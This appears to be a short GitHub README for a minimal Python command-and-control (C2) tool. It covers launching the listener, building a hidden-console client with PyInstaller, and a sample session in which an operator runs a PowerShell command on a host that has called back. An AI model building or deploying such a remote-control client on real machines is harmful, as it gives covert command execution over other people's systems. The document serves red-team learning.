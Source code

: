# Stream C2

I used the TCP echo client/server using streams [example](https://docs.python.org/3/library/asyncio-stream.html#examples) and built a very basic C2

## Running (server)

Must have Python 3.7+

```
python3 server.py
** C2 Serving on ('0.0.0.0', 8888) **
```

Starting the server

## Building (client)

### Python

Must have Python 3.7+

```python client.py```

Running the client with python (no build necessary)

### Pyinstaller

```pyinstaller.exe --onefile --noconsole .\client.py```

Builds the client into a single file executable using [pyinstaller](https://www.pyinstaller.org/)

## Usage

```
[*] Received callback from '192.168.1.6'
[+] Command to run?
192.168.1.6> powershell.exe $PSVersionTable.PSVersion
[*] Command Sent: powershell.exe $PSVersionTable.PSVersion
[+] Results from 10.0.0.68
Major  Minor  Build  Revision
-----  -----  -----  --------
5      1      19041  610
```

Running a simple powershell command
